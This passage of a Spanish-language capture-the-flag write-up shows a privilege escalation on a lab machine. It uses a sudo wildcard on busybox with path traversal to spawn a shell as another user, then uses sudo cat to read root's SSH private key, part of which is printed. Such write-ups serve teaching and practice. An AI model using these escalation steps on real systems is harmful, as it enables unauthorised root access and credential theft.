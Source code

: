 YA ESTAMOS COMO RALF.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:

   ```bash
ralf@50bfb3b4954d:~$ sudo -l
Matching Defaults entries for ralf on 50bfb3b4954d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ralf may run the following commands on 50bfb3b4954d:
    (capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*

```

Vemos **busybox** con permisos SUDO en nothing( no podemos escribir), pero hay un wildcard :

```bash

ralf@50bfb3b4954d:/tmp$ sudo -u capa /usr/local/bin/busybox /nothing/../../bin/sh


BusyBox v1.36.1 (Ubuntu 1:1.36.1-6ubuntu3) built-in shell (ash)
Enter 'help' for a list of built-in commands.

/tmp $ whoami
capa
/tmp $ 

```

YA ESTAMOS COMO CAPA.

Vemos si el usuario tiene permisos SUDO:

```bash

/tmp $ sudo -l
Matching Defaults entries for capa on 50bfb3b4954d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User capa may run the following commands on 50bfb3b4954d:
    (ALL : ALL) NOPASSWD: /bin/cat


```

Vemos **cat** con permisos SUDO y root tiene su clave ssh en su directorio personal:

```bash

sudo /bin/cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAx7wRGZs86cLk6QtiELD9oXmIZMQDclgYbkr+j8aR5iqnVb0HtRPU
4ql/Va6It+VmzCARj+6p4NlAM1nXeoGt2Ad9H0CUHCefwN5u50lMS1x+6XXh3p4Ww5dnJF
v6O+yVvAfe+CXtos1ckqsdu6qJ2tDRCBye4/q55DV0Mk5ACxKdWw5pzqHpM9H3utQ3/5rM
KSfKzDmwdmpJgElWPOwvD1OY0WuL9U0i/5jay/QnUBeUCK1Khyx+sJx86yRyqD63CgklLj
4kxsWQlD1EvKHwKf3PgJqve/tUpO4w2KFbm3ThRew4a0AN12gskVXaR1XQnoL1HM70wH6H
CUi1JFRklqBTwbzgQCJbm4cZcUWHfpKZauFXZt1uYYOZMYbRFKzsWUO7fOEt63TJMHsMMh
OQrlHf4SWEn8DISb3NY2WZd5wpaoHkwTuXibR6pKu8Ygv8ksEY/Lo4/dAAEFbFtfCq9wPZ
Lv8ULyPJ/5SCML3nrO7HWoF3wgrERNM/Zze5JwmC9i4/nL86z9O+W1LvoHY81yo0pne1/M
4YK78g5yG2Uw3uVvKFMVeAFC4bc4/mH4LHQ+4CWXerJu5Wax1oFDYgUPnYhiy3ktQkQnzp
/e5EMauk/ZMu/wgIvix20+2bfscnqngrZlbmmZl9nkPM8j/gbP+0tyrBFqJx5t6gu1hU7l
UAAAdIUtabUFLWm1AAAAAHc3NoLXJzYQAAAgEAx7wRGZs86cLk6QtiELD9oXmIZMQDclgY
```